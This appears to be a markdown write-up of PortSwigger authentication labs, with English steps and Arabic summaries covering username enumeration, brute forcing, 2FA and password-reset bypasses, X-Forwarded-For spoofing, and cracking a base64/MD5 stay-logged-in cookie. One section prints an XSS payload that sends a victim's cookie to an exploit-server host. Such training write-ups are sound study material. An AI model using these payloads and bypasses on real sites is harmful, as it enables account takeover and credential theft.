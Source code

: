 # Authentication vulnerabilities



<details>
  <summary>Lab: Username enumeration via different responses</summary>

> ### try invalid usernaem ``admin``

<img width="1030" height="436" alt="image" src="https://github.com/user-attachments/assets/ae7dc0ef-29c0-4040-95a1-7011a3012721" />

> ### try to bruteforce username and match ``Invalid username``

<img width="1604" height="553" alt="image" src="https://github.com/user-attachments/assets/25abcbc9-5139-4067-b66f-27aa66b63cb8" />

<img width="1277" height="469" alt="image" src="https://github.com/user-attachments/assets/2d856d21-4f13-420d-a978-5b3fd040ab66" />

### so now username is 

```
user
```

---

> ### now bruteforce the password:

<img width="1016" height="358" alt="image" src="https://github.com/user-attachments/assets/65292c04-6634-4f0a-befa-d58f1a5474c4" />

so passowrd is :

```
iloveyou
```

<img width="1341" height="617" alt="image" src="https://github.com/user-attachments/assets/77519529-471c-40f0-9f0a-7c447c705326" />





  
</details>






<details>
  <summary>Lab: 2FA simple bypass</summary>


<img width="1105" height="319" alt="image" src="https://github.com/user-attachments/assets/7fbed2c2-8e4d-4fd5-bbc8-7d820821a746" />


  
</details>




<details>
  <summary>Lab: Password reset broken logic</summary>


- > click reset password and check email box you will found link click on it if you try to remove token error will apper
  >
  > write new password and intercept the request now you can remove token and change user to carlos 



  
</details>








<details>
  <summary>Lab: Password reset poisoning via middleware</summary>


1. login with ``wiener:peter``
2. signout
3. login with ``carlos``
4. click forget passowrd

  
</details>



































--------
```
✅ 1. Username enumeration via different responses
الثغرة: اختلاف الرسائل لما يكون اليوزر موجود أو غير موجود.

الاستغلال: جرّب يوزرات مختلفة وشوف الرسالة، تقدر تعرف لو اليوزر موجود.
```


--------

```
✅ 4.Username enumeration via subtly different responses
الثغرة: التطبيق بيرجع رسائل خطأ مختلفة بشكل طفيف جدًا حسب إذا كان اليوزر موجود أو مش موجود.
مثلًا:

Invalid username or password. ← لو اليوزر مش موجود.

Invalid password or password ← لو اليوزر موجود.

الرسالة شكلها شبه بعض لكن فيها فرق بسيط جدًا، والمهاجم ممكن يلاحظه.
```

--------

```
✅ 5. Username enumeration via response timing
الثغرة: الاختلاف في زمن الاستجابة لما يكون اليوزر موجود.

الاستغلال: لو زمن الاستجابة أطول مع يوزر معين → غالبًا موجود (لأن الباسورد بيتشيك بعده).


```

--------

```
✅ 6. Broken brute-force protection, IP block
الثغرة: حماية تسجيل الدخول بتمنع المحاولات المتكررة فقط من نفس الـ IP.

الاستغلال: استخدم X-Forwarded-For لتغيير عنوان الـ IP مع كل محاولة، وتجاوز الحماية.
```

---------

### 🎱``8 Lab: Brute-forcing a stay-logged-in cookie``

- > first login with ``wiener:peter`` with stay logged in option and inturcept the request
  >
  > ``found``
  >
  > ```
  > Cookie: session=X2AecSWQYF3pEDwqbjSuG6FYLHSV6IGq; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
  > ```
  >
  > as you see ``stay-logged-in`` is decoded in **``base64``** when decode it found:
  >
  > ```
  > wiener:51dc30ddc473d43a6011e9ebba6ca770
  > ```
  >
  > ``structure of cookies``
  >
  > ```
  > base64(username:MD5(password))
  > ```
  >
  > ohh so this cookie have username and passowrd hashed in ``MD5`` after decrypt it found the password **``peter``**
  >
  > **``order is important``**
  >
  > ![image](https://github.com/user-attachments/assets/d8ed9b02-4be1-4c3d-b40b-d4e1d4d1b8d9)
  >
  > 
  > 




----

### 9 offline password cracking 

- > first login with my username and passowrd ``wiener:peter`` with stay login button 
  >
  > found in cookie that is encoded in base64
  >
  > ``base64(username:md5(password))``
  >
  > now we know that comments is vuln to xss you will steal cookie of ``carlos`` by using xss
  >
  > in comment put
  >
  > ```
  > <script>document.location='https://exploit-0a1f000d0421311d80d80c4801090020.exploit-server.net/exploit'+document.cookie</script>
  > ```
  >
  > after that go to exploit server then logs you will find cookies of carlos
  >
  > ``Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz``
  >
  > ``carlos:26323c16d5f4dabff3bb136f2460a943``
  >
  > ``carlos:onceuponatime``



----- 

### Password reset broken logic


- > click reset password and check email box you will found link click on it if you try to remove token error will apper
  >
  > write new password and intercept the request now you can remove token and change user to carlos 
















































